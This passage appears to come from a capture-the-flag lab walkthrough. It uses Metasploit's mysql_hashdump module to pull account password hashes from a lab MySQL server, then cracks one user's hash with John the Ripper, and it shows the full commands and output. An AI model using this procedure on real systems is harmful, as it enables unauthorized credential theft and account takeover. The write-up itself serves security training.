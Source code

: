 3\. Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better… search for and select the “mysql\_hashdump” module. What’s the module’s full name?

```
auxiliary/scanner/mysql/mysql\_hashdump
```

the exploit will output the list of hashes

```
\[+\] 10.10.75.70:3306      - Saving HashString as Loot: root:  
\[+\] 10.10.75.70:3306      - Saving HashString as Loot: mysql.session:\*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE  
\[+\] 10.10.75.70:3306      - Saving HashString as Loot: mysql.sys:\*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE  
\[+\] 10.10.75.70:3306      - Saving HashString as Loot: debian-sys-maint:\*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E  
\[+\] 10.10.75.70:3306      - Saving HashString as Loot: root:\*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19  
\[+\] 10.10.75.70:3306      - Saving HashString as Loot: carl:\*EA031893AA21444B170FC2162A56978B8CEECE18  
\[\*\] 10.10.75.70:3306      - Scanned 1 of 1 hosts (100% complete)  
\[\*\] Auxiliary module execution completed
```

4\. Again, I’ll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?

```
carl
```

5\. What is the user/hash combination string?

```
carl:\*EA031893AA21444B170FC2162A56978B8CEECE18
```

Copy the read the hash along with the username and save it into a text file, we are going to use ‘johntheripper’ to crack it.

```
┌──(kali㉿kali)-\[~\]  
└─$ echo "carl:\*EA031893AA21444B170FC2162A56978B8CEECE18" >> hash.txt                                                                                                                                           1 ⨯  
                                                                                                                                                                                                                      
┌──(kali㉿kali)-\[~\]  
└─$ john hash.txt  
Created directory: /home/kali/.john  
Using default input encoding: UTF-8  
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ \[SHA1 128/128 AVX 4x\])  
Warning: no OpenMP support for this hash type, consider --fork=4  
Proceeding with single, rules:Single  
Press 'q' or Ctrl-C to abort, almost any other key for status  
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.  
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.  
Almost done: Processing the remaining buffered candidate passwords, if any.  
Proceeding with wordlist:/usr/share/john/password.lst  
Proceeding with incremental:ASCII  
doggie           (carl)       
1g 0:00:00:01 DONE 3/3 (2022-03-11 10:56) 0.6756g/s 1544Kp/s 1544Kc/s 1544KC/s doggie..doggin  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed.
```
